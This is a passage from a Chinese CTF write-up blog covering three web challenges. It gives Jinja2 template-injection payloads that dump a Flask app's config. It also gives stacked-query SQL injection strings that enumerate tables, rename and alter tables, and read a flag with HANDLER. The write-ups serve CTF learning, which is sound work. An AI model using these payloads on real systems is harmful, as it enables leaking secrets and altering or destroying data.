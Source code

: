 ```java
/shrine/{{url_for.__globals__['current_app'].config}}
```

![](https://img-blog.csdnimg.cn/20200318120810369.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
还可以使用

```java
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```

![](https://img-blog.csdnimg.cn/20200318120946366.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

参考：[[WesternCTF2018]shrine](https://www.cnblogs.com/wangtanzhi/p/12238779.html)


## [强网杯 2019]随便注

注意表的两端两边要加：反引号

`1' ; show databases;#`查看数据库
![](https://img-blog.csdnimg.cn/20200313215917182.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

`1' ;show tables;#`查看表
![](https://img-blog.csdnimg.cn/20200313215744714.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`0'; show columns from words ;#`查看words表中字段
![](https://img-blog.csdnimg.cn/20200313220222128.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`0';show columns from 1919810931114514;#`
![](https://img-blog.csdnimg.cn/202003132213049.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
发现flag，然后看了师傅的文章发现：
1. 将words表改名为word1或其它任意名字

2. 1919810931114514改名为words

3. 将新的word表插入一列，列名为id

4. 将flag列改名为data

`1';rename table words to word1;rename table 1919810931114514 to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#`

![](https://img-blog.csdnimg.cn/20200313222343545.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后`1' or 1=1 #`得到flag
![](https://img-blog.csdnimg.cn/20200313222823998.png)
看了另一篇文章发现还可以用handler代替select查询
`1'; handler 1919810931114514 open as y1ng; handler y1ng read first; handler y1ng close;#`
![](https://img-blog.csdnimg.cn/20200313223508859.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

## [护网杯 2018]easy_tornado

render是模板注入，由于不了解，看wp
![](https://img-blog.csdnimg.cn/20200313224125392.png)
**flag in /fllllllllllllag
render
md5(cookie_secret+md5(filename))**
